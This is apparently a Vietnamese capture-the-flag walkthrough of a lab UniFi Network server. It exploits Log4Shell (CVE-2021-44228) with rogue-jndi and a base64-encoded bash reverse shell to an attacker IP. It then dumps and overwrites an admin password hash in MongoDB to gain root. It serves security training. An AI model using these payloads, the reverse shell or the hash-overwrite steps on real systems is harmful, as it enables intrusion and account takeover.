## Task 1


Sử dụng command để scan target
```bash
sudo nmap --top-ports=1000 -T4 -sV -sC -Pn 10.129.96.149
```



> 22,6789,8080,8443
## Task 2


Thử truy cập trang web để xem đáp án


> UniFi Network
## Task 3


> 6.4.54
## Task 4


Thử search CVE liên quan đến version này thì có một lỗi cực kì nghiệm trọng


> CVE-2021-44228
## Task 5


Cái này phải search google và đọc thử CVE đã để cập ở trên



> LDAP
## Task 6


> tcpdump
## Task 7


Vì nó là giao thức tấn công liên quan đến LDAP nên port sử dụng sẽ là 

> 389
## User Flag
Bây giờ đến lúc khai thác, chúng ta bắt một traffic từ một request bình thường login vào trang quản trị



Với trường hợp của ta thì tham số nghi ngờ nhất lại chính là remember giờ hãy đặt tcpdump traffic và request ldap đến máy attack của chúng ta



Có traffic trả về nghĩa là có tồn tại lỗ hổng nhưng hiện tại chúng ta chưa đọc được các thông tin trả về là gì. Dò tìm thì chúng ta phải cài đặt thêm công cụ

**Cơ chế hoạt động trong Log4Shell:**
1. Log4j có tính năng JNDI lookup trong log message: khi app log 1 string chứa `${jndi:ldap://attacker.com/a}`, Log4j tự động **resolve** nó bằng cách kết nối tới LDAP server đó và tải về 1 object Java.
2. Rogue JNDI đóng vai trò server LDAP/HTTP giả, trả về response trỏ tới 1 class Java độc hại (`codebase` + `className`) mà server của nạn nhân sẽ **tải về và thực thi**.
3. Repo hỗ trợ nhiều payload controller khác nhau tùy JDK version và target, trong đó phổ biến nhất là kỹ thuật **remote classloading** classic (hiệu quả với JDK ≤ 8u191, vì sau version này Oracle đã disable `trustURLCodebase` theo default).
### Cài đặt công cụ để khai thác
```bash
sudo apt install openjdk-11-jdk -y
sudo apt-get install maven -y
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi 
mvn package
```
Chúng ta cũng chuẩn bị một reverse shell
```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.15.234/4444 0>&1"' | base64
```
Bây giờ thì đưa nội dung vào server của chúng ta
```java
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yMzQvNDQ0NCAwPiYxIgo=}|{base64,-d}|{bash,-i}" --hostname "10. 10.15.234"
```


Chúng ta sẽ nhận được shell


Lục tìm user.txt flag

## Task 8


Thực hiện lệnh
```bash
ps -aux | grep mông
```


> 27117
## Task 9


> ace
## Task 10


Chúng ta cũng chưa xác định được bảng có trong ace database nên kết nối vào thử
```bash
mongo --port 27117 ace
```
Tìm các collection thì có cái admin đáng ngờ

Chúng ta xem thử bên trong này có gì
```
db.admin.find().pretty()
```

Chúng ta thu được thông tin admin và shadow
```
admin / $6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.
```
## Task 11


> db.admin.update()
## Task 12


Chúng ta đã có được hash của admin tuy nhiền việc crack như thế này bất khả thi nên thay vào đó chúng ta thực hiện ghi đè bằng 1 mật khẩu chúng ta đã biết
```bash
mkpasswd -m sha-512 password
```

Thực hiện update cho user admin này
```
db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")}, {$set:{"x_shadow":"$6$aeDrGqrIA7/GZMdw$ZeyfT12RuQMDdTjzLBmOR.CvSSrjnZWFqhuSER5YTpDAvjTq5gLLOrAiyPZ98.cK2Bk8xuHWMqY8kv.ywmK330"}})
```
Chúng ta đổi thành công và thực hiện đăng nhập thử

Giờ tìm password root

## Root Flag
Đã có mật khẩu SSH root rồi thì vào tìm key thôi

